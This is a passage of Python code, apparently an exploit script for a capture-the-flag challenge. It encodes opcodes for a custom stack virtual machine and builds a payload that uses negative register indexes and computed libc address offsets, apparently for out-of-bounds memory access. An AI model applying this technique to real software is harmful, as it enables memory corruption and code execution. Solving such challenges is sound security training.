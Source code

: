 ```python
    global size
    size += 1
    return ('3\n'+str(RegID)+'\n')

def push_reg(RegID):
    global size
    size += 1
    return ('4\n'+str(RegID)+'\n')

def add():
    global size
    size += 1
    return ('5\n')

def sub():
    global size
    size += 1
    return ('6\n')

def div():
    global size
    size += 1
    return ('7\n')

def mul():
    global size
    size += 1
    return ('8\n')

def and_t():
    global size
    size += 1
    return ('9\n')

def or_t():
    global size
    size += 1
    return ('10\n')

def xor_t():
    global size
    size += 1
    return ('11\n')

def print_top():
    global size
    size += 1
    return ('14\n')

def pop_reg(RegID):
    global size
    size += 1
    return ('15\n'+str(RegID)+'\n')

def default():
    global size
    size += 1
    return (p8(0xff)+'\n')

code = push(0x111) + push(0x222) + push(0x333) + push(0x444)
code += push_reg(-0x15-1) + push(0x7ffff7fc16a0-0x7ffff7ebbc81) + sub() + pop_reg(-0x3fffffffffffffff-1+(0x20050/8)+1)
# for i in range(6,100):
```